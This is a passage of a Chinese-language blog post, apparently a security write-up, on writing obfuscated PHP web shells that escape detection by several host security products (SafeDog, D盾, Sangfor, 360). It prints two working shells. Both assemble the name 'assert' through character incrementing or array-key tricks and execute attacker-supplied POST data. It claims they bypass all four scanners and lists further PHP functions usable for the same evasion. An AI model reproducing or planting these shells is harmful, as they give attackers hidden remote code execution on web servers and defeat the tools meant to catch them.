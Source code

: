 稳过安全狗，但是还是没有过 D 盾，可是等级我们再次降低了一个级别，变成二级了：

![][11]

我们可以再结合一下上面所说的，把自增运算与及参数的传递打破一下检测的规则。

```
<?php
function moza($a){
$_ = ('!'^'@');//a
$__ = $_;
$_++;$_++;$_++;$_++;$____ = $_;$_++;$_++;$_++;$_++;$_++;$_++;
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___ = $_;$_++;
$__ = $__.$_.$_.$____.$___;$_++;$__ = $__.$_;//assert
@$__($a);
}
$a=$_POST[1];
moza($a=$a);
print_r($_);
?>

```

![][12]

可以发现，安全狗我们再次无压力，并且 D 盾等级再次降低，降到了一级，只报了一个变量函数，针对这一点，我们再改一下。这次我们可以采用数组的方式，经过多次变换，再加上参数扰乱达到 bypass 的目的。

代码如下：

```
<?php
$a1=array("a"=>"red","ss"=>"green","c"=>"blue","er"=>"hello","t"=>"hey");
$a2=array("a"=>"red","ss"=>"blue","d"=>"pink","er"=>"hellos","moza"=>"good_boy","t"=>"hey");
$result=array_intersect_key($a1,$a2);//取数组交集
$a = array_keys($result);//取数组键值
$man = $a[0].$a[1].$a[2]."t";
$kk=$_POST['a'];
@$man($kk=$kk);
print_r($a1);//扰乱规则
?>
```

![][13]

可以发现我们已经 bypass 掉了安全狗，D 盾，深信服，360 主机卫士。

当然远不止这种方法，php 实在太灵活了。

- uopz_function()
- uasort()
- uksort()
- array_uintersect_uassoc()
- array_udiff_assoc()
  等等，都可以用来 bypass，用法可以自己尝试。


[1]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_105221.png
[2]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_105621.png
[3]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_110137.png
[4]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_111310.png
[5]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_111844.png
[6]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113023.png
[7]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113320.png
[8]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113642.png
[9]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113902.png
[10]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_114323.png
[11]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_115928.png
[12]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_120233.png
[13]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_120507.png
[14]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_131752.png